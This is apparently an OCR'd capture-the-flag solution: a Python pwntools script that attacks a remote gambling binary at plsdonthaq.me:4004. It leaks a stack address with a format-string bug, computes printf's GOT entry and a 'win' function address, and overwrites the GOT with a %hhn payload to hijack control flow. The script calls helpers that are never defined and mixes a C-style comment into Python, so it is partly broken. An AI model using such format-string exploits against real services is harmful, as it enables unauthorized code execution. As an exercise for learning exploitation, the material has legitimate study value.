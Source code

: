 ```
def gen_format_writes(to_write, setup_len, stack_offset):
    payload = b''
    n_val = [setup_len]
    for i in range(4):
        n_val += [get_n(to_write[i], sum(n_val[:i+1]), 8)]
        payload += '%{}c'.format(n_val[i+1]).encode()
        payload += '%{}$hhn'.format(stack_offset + i).encode()
    return payload

# repeatedly gambles until there is a success
def gamble(should_return):
    while True:
        p.recvuntil("will you do? ")
        p.sendline('g')
        p.recvuntil('): ')
        p.sendline('0.01')
        p.recvuntil('> ')
        p.sendline('3')
        p.recvline()
        data = p.recv(4).decode()
        if data == 'Well':
            if not should_return:
                break
        data += p.recvline().decode()
        // find the stack value printed out
        match = re.search(r'0x[\da-f]+', data)
        if match:
            print(data)
            return(match.group())
            break
        else:
            print('f')
            p.send('f')

p = remote('plsdonthaq.me', 4004)

p.sendline(b'{0x%x}')

g_player_addr = int(gamble(True), 16)-0x14 # this address is ebx+0x208
ebx = g_player_addr - 0x208
printf_got_addr = ebx + 0x10 # printf got @ ebx+0x10
# note that ebx contains binary offset 0x3518
# win function is at binary offset 0x0ab4
win_addr = ebx - 0x3518 + 0x0ab4
win_addr = [c for c in p32(win_addr)]

p.send('y')
p.recvuntil("will you do? ")
p.sendline('c')
p.recvuntil("new handle? ")

payload = gen_addrs(printf_got_addr)
setup_len = len(payload)
payload += gen_format_writes(win_addr, setup_len, 5)

p.sendline(payload)
gamble(False)

p.interactive()

```
